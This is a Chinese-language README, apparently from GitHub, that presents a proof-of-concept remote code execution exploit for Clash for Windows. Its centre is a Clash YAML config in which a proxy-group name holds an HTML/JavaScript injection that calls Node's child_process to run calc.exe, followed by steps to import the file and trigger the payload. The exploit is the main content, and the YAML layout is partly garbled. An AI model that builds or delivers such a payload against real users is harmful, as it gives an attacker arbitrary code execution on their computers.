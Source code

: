 # Clash_for_Windows-远程代码执行漏洞:漏洞利用poc,远程rce

Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍

```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

0x02:漏洞复现

## 从以下链接下载Windows版本：

<div>
https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>

## 在windows10虚拟机中打开Clash_for_Windows

0x03:poc

````
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
name: atype: socks5
server: 127.0.0.1
port: "17938"
skip-cert-verify: true
name: abc
type: socks5
server: 127.0.0.1
port: "8088"
skip-cert-verify: true
```
proxy-groups:
```

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
type: select
proxies:
- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
````

## 导入该poc：

import

### 在当前界面点击：

Proxies

此时弹出计算器，漏洞成功利用。

0x04:

###### 原作者pr链接：

```
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
```

里面包含了poc和复现方法。

本次本地复现来源于上述链接！
